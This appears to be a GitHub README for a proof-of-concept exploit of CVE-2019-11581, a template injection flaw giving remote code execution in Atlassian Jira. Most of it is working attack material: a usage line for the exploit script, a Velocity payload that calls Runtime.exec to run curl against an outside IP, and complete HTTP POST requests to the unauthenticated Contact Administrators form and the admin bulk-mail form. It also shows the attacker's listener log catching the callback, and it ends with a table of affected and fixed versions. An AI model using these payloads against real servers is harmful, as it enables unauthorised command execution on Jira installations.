








# CVE-2019-11581
## Atlassian JIRA Template injection vulnerability RCE

## Demo

`python CVE-2019-11581.py http://xx.xx.xx.xx:8080/ "Command"`



### Vuln Version Download
`https://product-downloads.atlassian.com/software/jira/downloads/atlassian-jira-software-7.13.0-x64.exe`


### Poc
```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl 47.97.112.98:8000//jas502n//').waitFor()
```

`Atlassian Jira Project Management Software (v7.13.0#713000-sha1:fbf4068)`

## 0x01 前台-联系网站管理员(No auth)



`subject=%24i18n.getClass%28%29.forName%28%27java.lang.Runtime%27%29.getMethod%28%27getRuntime%27%2Cnull%29.invoke%28null%2Cnull%29.exec%28%27curl+47.97.112.98%3A8000%2F%2Fjas502n%2F%2F%27%29.waitFor%28%29`

```
POST /secure/ContactAdministrators.jspa HTTP/1.1
Host: 10.10.20.116:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 356
Referer: http://10.10.20.116:8080/secure/ContactAdministrators!default.jspa
Cookie: atlassian.xsrf.token=B6MK-HX7C-MR43-860H_23d834a2bed060db3006caa1d13445a9612e0d2a_lout; JSESSIONID=FCC6A28A80F6BBB6610A54327E4E8C66
X-Forwarded-For: 127.0.0.1
Connection: keep-alive
Upgrade-Insecure-Requests: 1

from=232334%40qq.com&subject=%24i18n.getClass%28%29.forName%28%27java.lang.Runtime%27%29.getMethod%28%27getRuntime%27%2Cnull%29.invoke%28null%2Cnull%29.exec%28%27curl+47.97.112.98%3A8000%2F%2Fjas502n%2F%2F%27%29.waitFor%28%29&details=23423423&atl_token=B6MK-HX7C-MR43-860H_23d834a2bed060db3006caa1d13445a9612e0d2a_lout&%E5%8F%91%E9%80%81=%E5%8F%91%E9%80%81
```
## 0x02 secure/admin/SendBulkMail.jspa (need administrator password)

```
POST /secure/admin/SendBulkMail.jspa HTTP/1.1
Host: 10.10.20.116:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 433
Referer: http://10.10.20.116:8080/secure/admin/SendBulkMail!default.jspa
Cookie: atlassian.xsrf.token=B6MK-HX7C-MR43-860H_6146f3bed0f204ae619d52a0323ecd41ea5ecb6b_lin; JSESSIONID=32D0E863B383BDAAF8049FA4339D5C26
X-Forwarded-For: 127.0.0.1
Connection: keep-alive
Upgrade-Insecure-Requests: 1

sendToRoles=true&projects=10000&roles=10002&replyTo=test%40qq.com&subject=%24i18n.getClass%28%29.forName%28%27java.lang.Runtime%27%29.getMethod%28%27getRuntime%27%2Cnull%29.invoke%28null%2Cnull%29.exec%28%27curl+47.97.112.98%3A8000%2F%2Fjas502n%2F%2F%27%29.waitFor%28%29&message=542342342&messageType=html&sendBlind=true&%E5%8F%91%E9%80%81=%E5%8F%91%E9%80%81&atl_token=B6MK-HX7C-MR43-860H_6146f3bed0f204ae619d52a0323ecd41ea5ecb6b_lin
```
### Receiving data packets
```
python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
1xx.xx.xx4 - - [16/Jul/2019 12:13:43] code 404, message File not found
1xx.xx.xx4 - - [16/Jul/2019 12:13:43] "GET //jas502n// HTTP/1.1" 404 -

```

## 开启-前台-联系网站管理员

`http://10.10.20.116:8080/secure/admin/EditApplicationProperties!default.jspa`
```
Choose the cog icon  > System .
Choose General Configuration.
Click Edit Settings.
Scroll down to the  Contact Administrators Form and set it to ON.
Enter your text in the  Contact Administrators Message box. If you need markup assistance, click the ? under the box. 
Click Update.
```

### Vuln Version
```
Affected Version	Fixed Version
4.4.x	7.6.14, 7.13.5, 8.0.3, 8.1.2, 8.2.3
5.x.x	7.6.14, 7.13.5, 8.0.3, 8.1.2, 8.2.3
6.x.x	7.6.14, 7.13.5, 8.0.3, 8.1.2, 8.2.3
7.0.x	7.6.14, 7.13.5, 8.0.3, 8.1.2, 8.2.3
7.1.x	7.6.14, 7.13.5, 8.0.3, 8.1.2, 8.2.3
7.2.x	7.6.14, 7.13.5, 8.0.3, 8.1.2, 8.2.3
7.3.x	7.6.14, 7.13.5, 8.0.3, 8.1.2, 8.2.3
7.4.x	7.6.14, 7.13.5, 8.0.3, 8.1.2, 8.2.3
7.5.x	7.6.14, 7.13.5, 8.0.3, 8.1.2, 8.2.3
7.6.x before 7.6.14	7.6.14, 7.13.5 (Enterprise Releases)
7.7.x	7.13.5, 8.0.3, 8.1.2, 8.2.3
7.8.x	7.13.5, 8.0.3, 8.1.2, 8.2.3
7.9.x	7.13.5, 8.0.3, 8.1.2, 8.2.3
7.10.x	7.13.5, 8.0.3, 8.1.2, 8.2.3
7.11.x	7.13.5, 8.0.3, 8.1.2, 8.2.3
7.12.x	7.13.5, 8.0.3, 8.1.2, 8.2.3
7.13.x before 7.13.5	7.13.5 (Enterprise Release)
8.0.x before 8.0.3	8.0.3
8.1.x before 8.1.2	8.1.2
8.2.x before 8.2.3	8.2.3
```
